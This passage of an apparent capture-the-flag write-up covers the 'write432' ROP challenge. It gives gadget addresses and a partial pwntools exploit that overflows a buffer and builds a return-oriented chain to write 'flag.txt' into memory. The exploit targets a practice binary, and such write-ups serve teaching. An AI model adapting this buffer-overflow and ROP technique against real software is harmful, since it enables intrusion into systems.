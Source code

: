 Looking at the gadgets returned by `ropper`, there was a single gadget that **popped** both the `EDI` and `EBP` in a single gadget, `pop edi; pop ebp; ret;` located at the address `0x080485aa`. This was perfect for the exploit.

**Address of the MOV Gadget:** `0x08048543`

**Address of the POP Gadget:** `0x080485aa`

### Step 5: Writing the Exploit
I wrote three exploits, one using `pwntools`, a one-line exploit in Python2, and a one-line exploit in Python3.

#### The Pwntools Exploit
```
#!/usr/bin/env python3

from pwn import *

# Set the binary context to the local binary
context.binary = binary = ELF("./write432", checksec=False)
context.log_level = "CRITICAL"

# Get the LIBC used for the binary
libc = binary.libc

gdb_script = """
continue
"""

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(args.HOST or exit("[!] Provide a Remote IP."), int(args.PORT or exit("[!] Provide a Remote Port.")))

    elif args.GDB:
        return gdb.debug([binary.path] + argv, gdbscript=gdb_script, *a, **kw)

    else:
        return process([binary.path] + argv, *a, **kw)

offset = 44
buffer = b"A"*offset

# Address of the .data section
data_addr = 0x0804a018

# Address of the print_file() function
print_file = p32(binary.plt["print_file"]) # 0x80483d0

# Address of the POP gadget
pop_gadget = p32(0x080485aa)

# Address of the MOV gadget
mov_gadget = p32(0x08048543)

# Building the ROP chain
payload = buffer
# POP the EDI and EBP
payload += pop_gadget
# Place the address of the .data section into the EDI
payload += p32(data_addr)
# Place the first 4 bytes of "flag.txt" into the EBP
payload += b"flag"
# Move the EBP into the EDI
```